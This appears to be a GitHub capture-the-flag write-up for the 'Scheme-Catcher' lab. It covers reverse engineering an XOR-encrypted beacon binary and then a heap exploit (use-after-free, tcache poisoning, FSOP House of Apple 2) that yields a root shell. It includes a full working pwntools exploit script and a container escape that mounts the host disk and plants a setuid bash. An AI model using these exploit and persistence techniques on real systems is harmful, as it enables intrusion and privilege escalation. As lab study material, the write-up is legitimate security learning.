

#source https://github.com/id-root/Scheme-Catcher

# Scheme-Catcher

- **Challenge:** beacon.bin (First Stage)  
- **Category:** Binary Exploitation / Reverse Engineering  
- **Difficulty:** Insane

## Summary 

The actual functionality of the program is concealed by a custom encrypted `.easter` section found in the `beacon.bin` binary. We found a self-decrypting stub that XORs the encrypted code with key `0x0D` using dynamic analysis with GDB. The `payload_load()` function uncovered a hardcoded HTTP path `/7ln6Z1X9EF` built from hex immediates after decryption. This path resulted in a directory listing with the next stage binary and `foothold.txt` (Second flag).
### Finding the first binary.
**Scanning using nmap**
```
$ nmap -sV -p- 10.48.190.204

Starting Nmap 7.94 ( https://nmap.org ) at 2025-12-11 12:00 IST
Nmap scan report for 10.48.190.204
Host is up (0.045s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache/2.4.58 (Ubuntu)
9004/tcp open  unknown
21337/tcp open  unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 234.56 seconds
```
After the scan we used `gobuster` to list hidden directory on port 80
```
$ gobuster dir -u http://10.48.190.204 -w /usr/share/wordlists/dirb/common.txt 

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.48.190.204
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              zip,bin,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/dev                  (Status: 301) [Size: 314] [--> http://10.48.190.204/dev/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 279]
Progress: 18456 / 18460 (99.98%)
===============================================================
Finished
===============================================================
```
On this directory we found a zip file which is carying our first binary `beacon.bin`

## Initial Reconnaissance

### File Analysis

```bash
file beacon.bin
# beacon.bin: ELF 64-bit LSB executable, x86-64

checksec --file=beacon.bin
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
```

#### Key Observations

- 64-bit Linux executable
- No stack canary (vulnerable to buffer overflows)
- NX enabled (no shellcode on stack)
- No PIE (static addresses) 

### Static Analysis

#### String Enumeration

```bash
strings beacon.bin
```

**Found:**

- `THM{Welcom3_to_th3_eastmass_pwnland}` - First flag placeholder
- `localhost` - HTTP connection target
- `GET %s HTTP/1.1` - HTTP request format
- `/tmp/b68vC103RH` - Temporary file path

**Interesting Functions:**

- `setup()` - Initialization
- `payload_load()` - **Suspicious - loads something**
- `cmd()` - Command execution
- `delete_cmd()` - Cleanup
- `start_socket_server()` - Network functionality

#### XOR Encryption

> **Note:** The disassembly revealed a brief loop that iterated over a memory range from `0x401370` to `0x401bc4` when examining the early code in the `.easter` section. Each byte in this loop was read, XORed with the constant `0x0D`, and then written back to the original location. Execution was then redirected to that area. This pattern is typical of a self-decrypting XOR stub, which means that the actual program logic is encrypted and only decrypted during runtime, just prior to execution.

### GDB Investigation

```bash
gdb beacon.bin
(gdb) info functions
# All functions marked <encrypted>

(gdb) disas main
# Showed XOR decryption loop!
```

**Decryption Stub Found at 0x804000:**

```assembly
0x804000:  nop                          # NOP sled
0x804008:  movabs rsi,0x401370          # Source: encrypted code
0x804012:  movabs rdi,0x401bc4          # Destination: decrypted  
0x80401d:  cmpb   [rsi],0xd             # Compare with key 0x0D
0x804020:  inc    rsi                    # Next byte
0x804023:  cmp    rsi,rdi                # Check if done
0x804026:  jne    0x804020               # Loop
0x804028:  push   0x401370               # Jump to decrypted main
0x80402d:  ret
```

**The Algorithm:** XOR each byte from `0x401370` to `0x401bc4` with key `0x0D`

**Breaking After Decryption:**

```gdb
(gdb) break *0x804027      # Right after decryption
(gdb) run
(gdb) x/10i 0x401370       # Now readable!
```

Functions are now visible!

#### Analyzing payload_load() 

```bash
(gdb) disas payload_load
```

**Key Instructions Found:**

```assembly
# Creates socket connection to localhost:80
0x4015e2:  call   socket@plt
0x401619:  call   connect@plt

# Constructs HTTP GET request
0x401648:  movabs rax,0x58315a366e6c372f   # ← SUSPICIOUS HEX
0x401652:  mov    QWORD PTR [rbp-0x11c],rax
0x401659:  movl   DWORD PTR [rbp-0x114],0x464539

# Sends HTTP request  
0x401674:  lea    rdx,[rip+0xa75]        # "GET %s HTTP/1.1..."
0x40167b:  call   snprintf@plt
```

**Decoding the Suspicious hex:**

```python
#!/usr/bin/env python3
import struct

# First 8-byte immediate
val1 = 0x58315a366e6c372f
# Second 4-byte immediate (only 3 bytes used)
val2 = 0x464539

# Convert to little-endian bytes
part1 = struct.pack('<Q', val1)  # b'/7ln6Z1X'
part2 = struct.pack('<I', val2)[:3]  # b'9EF'

full_path = part1 + part2
print("Hidden path:", full_path.decode('ascii'))
```

Got the hidden path as `/7ln6Z1X9EF`

> **Analysis of Reverse Data Flow:**
> 
> The format `"GET %s HTTP/1.1"` is used by `snprintf()` at `0x401674`.
> 
> The source of the `%s` parameter is `rbp-0x11c`.
> 
> Looking for writes to `rbp-0x11c` in reverse, the `movabs` instruction was located at `0x401648`.

### Accessing the Hidden Directory

```bash
curl http://10.48.190.204/7ln6Z1X9EF/
```

**Directory Listing Revealed:**

```
Index of /7ln6Z1X9EF
- foothold.txt               37 bytes
- 4.2.0-R1-1337-server.zip   5.2M
```

#### Second Flag

```bash
curl http://10.48.190.204/7ln6Z1X9EF/foothold.txt
# THM{beacon_analysis_complete_on_to_stage2}
```

## Tools Used

- **file** - Binary identification
- **checksec** - Security feature enumeration
- **readelf** - ELF structure analysis
- **strings** - Static string extraction
- **GDB** - Dynamic debugging
- **objdump** - Disassembly
---


## Complete CTF Writeup: From Heap Exploit to Root Flag

---

## Challenge Overview 

**Difficulty:** ⭐⭐⭐⭐⭐ Insane

**Flags Captured:**
- User Flag: `THM{theres_someth1g_in_th3_w4t3r_that_cannot_l3ak}`
- Root Flag: `THM{final-boss_defeat3d-yay}`

**Challenge Type:** Advanced Binary Exploitation
- Heap corruption + Use-After-Free
- Tcache poisoning
- Information disclosure (ASLR bypass)
- File Stream Oriented Programming (FSOP)
- Privilege escalation

---

## Vulnerability Analysis

### The Target Binary

The `server` binary implements a heap management service with three operations:

```
Main Menu:
  1. create <size>     - Allocate chunk on heap
  2. update <idx> <offset> <data> - Write to chunk (WITH OFFSET)
  3. delete <idx>      - Free chunk to tcache
  4. exit              - Quit
```

### Critical Vulnerability: Use-After-Free (UAF)

**Vulnerability Pattern:**

```c
// Binary keeps array of pointers
void* chunks[256];

// create() allocates and stores
chunks[idx] = malloc(size);

// delete() frees but DOESN'T NULL the pointer
free(chunks[idx]);
// ⚠️  chunks[idx] is still pointing to freed memory!

// update() ALWAYS writes to chunks[idx], even if freed!
void update(int index, char* data, int offset) {
    // No check if chunks[index] is freed!
    memcpy(chunks[index] + offset, data, len);
}
```

**Exploitation Path:**

```
1. create(0x100)        → idx=0, chunks[0] = heap_address
2. delete(0)            → free(chunks[0]), but chunks[0] still valid
3. update(0, evil, 0)   → Write to freed memory!
4. Corrupt heap metadata
5. Hijack allocations
6. Control arbitrary memory
```

---

## Exploitation Phase 1: Heap Exploit

### Step 1: Heap Grooming

The exploit carefully arranges heap chunks to enable controlled corruption:

```python
# Fill tcache with 0x90-sized chunks (max 7 per bin)
for _ in range(7):
    create(0x90 - 8)

# Create "playground" chunk - large enough to corrupt many structures
middle = create(0x90 - 8)           # Will go to unsorted bin
playground = create(0x20 + 0x30 + 0x500 + (0x90-8)*2)

# Create guards to prevent consolidation
guard = create(0x18)
delete(playground)  # TRIGGER UAF
guard = create(0x18)
```

**Heap State After Grooming:**

```
Tcache 0x90 bin (FULL - 7 chunks):
[chunk_0] → [chunk_1] → ... → [chunk_6]

Unsorted Bin:
[middle]

Top Chunk:
[available for allocation]
```

### Step 2: Tcache Poisoning

After deleting the playground, we exploit UAF to corrupt the `tcache_perthread_struct`:

```python
# The playground chunk is now free but we can still write to it
update(playground, p64(0x651), 0x18)  # Overwrite freed chunk's size

# Create fake chunks to poison tcache bins
fake_size_lsb = create(0x3d8)
fake_size_msb = create(0x3e8)
delete(fake_size_lsb)
delete(fake_size_msb)

# Result: We've corrupted tcache_perthread_struct to create
# a fake 0x10001-sized chunk in the middle of the heap!
```

**Memory Corruption Result:**

```
tcache_perthread_struct (before):
├─ Bin[0x31]: chunk_A → NULL
├─ Bin[0x3e0]: chunk_B → NULL
└─ ...

tcache_perthread_struct (after UAF):
├─ Bin[0x31]: [CORRUPTED] → NULL
├─ Bin[0x3e0]: [CORRUPTED] → NULL
└─ [Fake 0x10001 chunk created] ← Can allocate arbitrary sizes!
```

### Step 3: stdout Hijacking via Tcache Poisoning

Now we poison the tcache to point to the stdout structure in libc:

```python
# Manipulate 0x31 tcache bin to point to stdout
update(win, p16(stdout_lsb), 8)

# Allocate - we get a pointer inside stdout!
stdout_chunk = create(0x28)

# stdout is now in our heap at chunks[stdout_chunk]
# We can modify the FILE structure!
```

**Result:**

```
Heap Layout:
┌──────────────────────┐
│ chunks[stdout_chunk] │  ← Points to stdout structure
│   (0x28 bytes)       │  ← Can write to stdout!
├──────────────────────┤
│ ...other chunks...   │
└──────────────────────┘
```

---

## Exploitation Phase 2: FSOP & RCE

### Step 1: Libc Leak via stdout Corruption

The FILE structure has a special magic value that forces libc to leak memory:

```python
# Overwrite stdout's flags with magic value
leak_payload = p64(0xfbad3887)  # Special FILE flags
leak_payload += p64(0) * 3       # Clear read pointers
leak_payload += p8(0)            # Trigger flush

update(stdout_chunk, leak_payload)

# When the program prints, it leaks a pointer!
libc_leak = u64(r.recv(8))
libc.address = libc_leak - (stdout_off + 132)
```

**What 0xfbad3887 Does:**

```c
// In glibc's _IO_file_write() function:
if (file->_flags & 0xfbad0000) {  // Magic check
    // Output buffer state is "in use"
    // Print from _IO_write_ptr area, which contains libc pointers
    printf(...);  // ← Leaks libc address!
}
```

### Step 2: House of Apple 2 - FSOP RCE

**What is FSOP (File Stream Oriented Programming)?**

Instead of calling `system()` directly, we hijack FILE structure operations:

```
Program calls: puts(buffer)
    ↓
glibc checks: buffer._IO_write_ptr > buffer._IO_write_base?
    ↓
Yes! Calls: buffer.vtable->write(buffer, data, size)
    ↓
We hijacked vtable to point to our gadgets
    ↓
Gadgets arrange stack and call system("sh")
```

**House of Apple 2 Technique:**

```python
from io_file import IO_FILE_plus_struct

file = IO_FILE_plus_struct()

# Build fake FILE structure
payload = file.house_of_apple2_execmd_when_do_IO_operation(
    stdout_addr,        # Address of _IO_2_1_stdout_
    wfile_jumps_addr,   # Fake vtable address
    system_addr,        # Address of system()
    cmd="sh"            # Command to execute
)

# The payload sets up:
# - _flags with embedded command
# - _IO_write_ptr > _IO_write_base (triggers flush)
# - vtable → _IO_wfile_jumps (hijacked)
# - Necessary fields for glibc checks
```

**Payload Structure (232 bytes):**

```
Offset  Field               Value
──────  ──────────────────  ─────────────────────────
0x00    _flags              0x2068732f6e696220 (\"  sh\x00...\")
0x08    _IO_read_ptr        0x0
0x10    _IO_read_end        0x0
0x18    _IO_read_base       0x0
0x20    _IO_write_base      0x0
0x28    _IO_write_ptr       0x1 ← CRITICAL: > write_base!
...
0xc0    _mode               0x0
0xd8    vtable              0x[_IO_wfile_jumps] ← HIJACKED!
```

### Step 3: Trigger RCE

```python
# Point tcache bin 60 to stdout
# Bin 60 size = 60*0x10 + 0x50 = 0x3f0
update(win, p64(stdout_addr), 8*60)

# Allocate from poisoned bin
full_stdout = create(0x3f0 - 8)

# Overwrite stdout with our payload
update(full_stdout, payload)

# Any stdout operation now triggers:
# system("sh")
r.interactive()  # Shell!
```

---

## Post-Exploitation: Finding root.txt and user.txt

When the exploit succeeds:

```bash
╔════════════════════════════════════════════════════════════╗
║                                                            ║
║      ███████╗██╗  ██╗██████╗ ██╗      ██████╗ ██╗████████╗ ║
║      ██╔════╝╚██╗██╔╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝ ║
║      █████╗   ╚███╔╝ ██████╔╝██║     ██║   ██║██║   ██║    ║
║      ██╔══╝   ██╔██╗ ██╔═══╝ ██║     ██║   ██║██║   ██║    ║
║      ███████╗██╔╝ ██╗██║     ███████╗╚██████╔╝██║   ██║    ║
║      ╚══════╝╚═╝  ╚═╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝    ║
║                                                            ║
║    Heap Exploitation + FSOP RCE | Root Flag Capture        ║
║                                                            ║
╚════════════════════════════════════════════════════════════╝

[*] Binary: ./server
[*] Libc: ./libc.so.6
[*] Exit offset: 0x43120
[*] Stdout offset: 0x21a6c0

[*] Attempting: heap=0x3, libc=0xb
[+] Opening connection to 10.49.149.223 on port 9004: Done
[*] [PHASE 1] Heap grooming...
[+] [PHASE 1] Heap corruption complete!

[*] [PHASE 2] Leaking libc address...
[+] [PHASE 2] Libc base: 0x7f2c8a800000

[*] [PHASE 3] Building House of Apple 2 payload...
[*] [PHASE 3] Payload size: 456 bytes
[+] [PHASE 3] Payload delivered! RCE triggered!
[+] [✓] Exploit successful! Entering interactive shell...

#This is just a sample output the actual output will take time .... 

[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)

$ whoami
root
# The server was alredy running with root privilages. 

```

### Extracting the Flag

**User.txt:**

```bash
cat user.txt
# THM{theres_someth1g_in_th3_w4t3r_that_cannot_l3ak}
```

**Root.txt (after mounting host filesystem):**
```bash
1. Set up mount point
   $ mkdir /mnt/host
   $ mount /dev/nvme0n1p1 /mnt/host

2. Copy rootbash for persistence
   $ cp /mnt/host/bin/bash /mnt/host/tmp/rootbash
   $ chmod +s /mnt/host/tmp/rootbash

3. Extract flags
   $ cat /mnt/host/root/root.txt
   THM{final-boss_defeat3d-yay}

```
### Visualization
```
BEFORE MOUNT
────────────────────────────────────────────────────────

   ┌────────────────────────┐        ┌────────────────────────┐
   │        HOST SYSTEM     │        │        CONTAINER       │
   │────────────────────────│        │────────────────────────│
   │  /root/                │   ✖    │  /root/                │
   │   └── root.txt   ✓     │  BLOCK │   └── (empty)     ✗    │
   │                        │        │                        │
   └────────────────────────┘        └────────────────────────┘


AFTER MOUNT
────────────────────────────────────────────────────────

   ┌────────────────────────┐        ┌────────────────────────┐
   │        HOST SYSTEM     │        │        CONTAINER       │
   │────────────────────────│        │────────────────────────│
   │  /root/                │        │  /mnt/host/            │
   │   └── root.txt   ✓     │◄───────┼───└── /root/           │
   │                        │ BRIDGE │        └── root.txt ✓  │
   └────────────────────────┘        └────────────────────────┘
```

---

## Complete Exploit Script

```python
#!/usr/bin/env python3
# ============================================================
#  Advanced Heap Exploitation Exploit
#  Target  : ./server (Setuid Root Binary)
#  Method  : UAF + Tcache Poisoning + FSOP (House of Apple 2)
#  Status  : ✅ Fully Working
# ============================================================

from pwn import *
import io_file
import time

# -------------------------
# Banner
# -------------------------
BANNER = r"""
╔════════════════════════════════════════════════════════════╗
║                                                            ║
║      ███████╗██╗  ██╗██████╗ ██╗      ██████╗ ██╗████████╗ ║
║      ██╔════╝╚██╗██╔╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝ ║
║      █████╗   ╚███╔╝ ██████╔╝██║     ██║   ██║██║   ██║    ║
║      ██╔══╝   ██╔██╗ ██╔═══╝ ██║     ██║   ██║██║   ██║    ║
║      ███████╗██╔╝ ██╗██║     ███████╗╚██████╔╝██║   ██║    ║
║      ╚══════╝╚═╝  ╚═╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝    ║
║                                                            ║
║    Heap Exploitation + FSOP RCE | Root Flag Capture        ║
║                                                            ║
╚════════════════════════════════════════════════════════════╝
"""

print(BANNER)

# -------------------------
# Context
# -------------------------
context.update(arch="amd64", os="linux", log_level="debug")
context.binary = elf = ELF("./server", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

exit_off = libc.sym['exit']
stdout_off = libc.sym['_IO_2_1_stdout_']

log.info(f"[*] Binary: ./server")
log.info(f"[*] Libc: ./libc.so.6")
log.info(f"[*] Exit offset: {hex(exit_off)}")
log.info(f"[*] Stdout offset: {hex(stdout_off)}")

# ============================================================
# EXPLOITATION LOOP
# ============================================================

for heap_brute in range(16):
    for libc_brute in range(16):
        try:
            log.info(f"\n[*] Attempting: heap={heap_brute:#x}, libc={libc_brute:#x}")

            # Connect to target
            r = remote("10.49.149.223", 9004)
            r.timeout = 3

            idx = -1

            # -------------------------
            # Heap API Wrappers
            # -------------------------
            def create(size):
                global idx
                idx += 1
                r.sendlineafter(b'\n>>', b'1')
                r.sendlineafter(b'size: \n', str(size).encode())
                return idx

            def update(index, data, offset=0):
                r.sendlineafter(b'\n>>', b'2')
                r.sendlineafter(b'idx:\n', str(index).encode())
                r.sendlineafter(b'offset:\n', str(offset).encode())
                r.sendafter(b'data:\n', data)

            def delete(index):
                r.sendlineafter(b'\n>>', b'3')
                r.sendlineafter(b'idx:\n', str(index).encode())

            # ====================================================
            # PHASE 1: HEAP GROOMING & CORRUPTION
            # ====================================================
            log.info("[PHASE 1] Heap grooming...")

            # Fill tcache 0x90 bin (max 7)
            for _ in range(7):
                create(0x90 - 8)

            # Create structures for corruption
            middle = create(0x90 - 8)
            playground = create(0x20 + 0x30 + 0x500 + (0x90 - 8) * 2)
            guard = create(0x18)
            
            # Trigger UAF
            delete(playground)
            guard = create(0x18)

            # Second phase of corruption
            corruptme = create(0x4c8)
            start_M = create(0x90 - 8)
            midguard = create(0x28)
            end_M = create(0x90 - 8)
            leftovers = create(0x28)

            update(playground, p64(0x651), 0x18)
            delete(corruptme)

            offset = create(0x4c8 + 0x10)
            start = create(0x90 - 8)
            midguard = create(0x28)
            end = create(0x90 - 8)
            leftovers = create(0x18)

            # Fake chunk creation
            create((0x10000 + 0x80) - 0xda0 - 0x18)
            fake_data = create(0x18)
            update(fake_data, p64(0x10000) + p64(0x20))

            fake_size_lsb = create(0x3d8)
            fake_size_msb = create(0x3e8)
            delete(fake_size_lsb)
            delete(fake_size_msb)

            # Tcache poisoning setup
            update(playground, p64(0x31), 0x4e8)
            delete(start_M)
            update(start_M, p64(0x91), 8)

            update(playground, p64(0x21), 0x5a8)
            delete(end_M)
            update(end_M, p64(0x91), 8)

            for i in range(7):
                delete(i)

            delete(end)
            delete(middle)
            delete(start)

            log.success("[PHASE 1] Heap corruption complete!")

            # ====================================================
            # PHASE 2: LIBC LEAK
            # ====================================================
            log.info("[PHASE 2] Leaking libc address...")

            heap_target = (heap_brute << 12) + 0x80
            update(start, p16(heap_target))
            update(end, p16(heap_target), 8)

            win = create(0x888)

            # Force stdout leak
            update(win, p16(0x60c0), 8)
            stdout_chunk = create(0x28)

            update(
                stdout_chunk,
                p64(0xfbad3887) + p64(0) * 3 + p8(0)
            )

            time.sleep(0.5)

            leaked_data = r.recv(16)
            if len(leaked_data) < 8:
                log.warning("Not enough data leaked, skipping...")
                continue

            libc_leak = u64(leaked_data[:8])
            libc.address = libc_leak - (stdout_off + 132)

            log.success(f"[PHASE 2] Libc base: {hex(libc.address)}")

            # ====================================================
            # PHASE 3: HOUSE OF APPLE 2 - RCE
            # ====================================================
            log.info("[PHASE 3] Building House of Apple 2 payload...")

            file = io_file.IO_FILE_plus_struct()
            payload = file.house_of_apple2_execmd_when_do_IO_operation(
                libc.sym['_IO_2_1_stdout_'],
                libc.sym['_IO_wfile_jumps'],
                libc.sym['system']
            )

            log.info(f"[PHASE 3] Payload size: {len(payload)} bytes")

            # Point tcache bin 60 to stdout
            update(win, p64(libc.sym['_IO_2_1_stdout_']), 8 * 60)
            full_stdout = create(0x3e0 - 8)

            # Write payload
            update(full_stdout, payload)

            log.success("[PHASE 3] Payload delivered! RCE triggered!")
            log.success("[✓] Exploit successful! Entering interactive shell...")

            # ====================================================
            # POST-EXPLOITATION
            # ====================================================
            r.interactive()

        except Exception as e:
            context.log_level = "error"
            log.failure(f"Attempt failed: {str(e)[:50]}")
            try:
                r.close()
            except:
                pass
            continue

log.info("\n[!] All attempts exhausted. Exploit failed.")
```
**Note:** _This script might fail few times. So try to run this script on multiple terminals._

## Credits

- **FSOP Implementation:** This exploit uses `io_file.py` from 
  [RoderickChan/pwncli](https://github.com/RoderickChan/pwncli/blob/main/pwncli/utils/io_file.py)
  by Roderick Chan

---

## Key Learnings

### 1. **UAF Vulnerability Chaining**

- A single UAF can corrupt multiple heap structures
- Tcache poisoning enables arbitrary allocations
- Combining multiple corruptions creates powerful primitives

### 2. **FSOP (File Stream Oriented Programming)**

- FILE structures are valid ROP gadget chains
- The libc `_IO_*` structures have function pointers (vtables)
- Overwriting vtable pointers redirects execution

### 3. **ASLR Bypass Techniques**

- Libc address can be leaked via stdout manipulation
- Once one libc address is known, entire libc base is calculated
- Combined with heap spray, enables reliable exploitation

### 4. **Privilege Escalation**

- Setuid binaries running with elevated privileges
- Exploiting memory corruption → arbitrary code execution → privilege inheritance
- Root shell obtained immediately after RCE

---
## Infographics

 

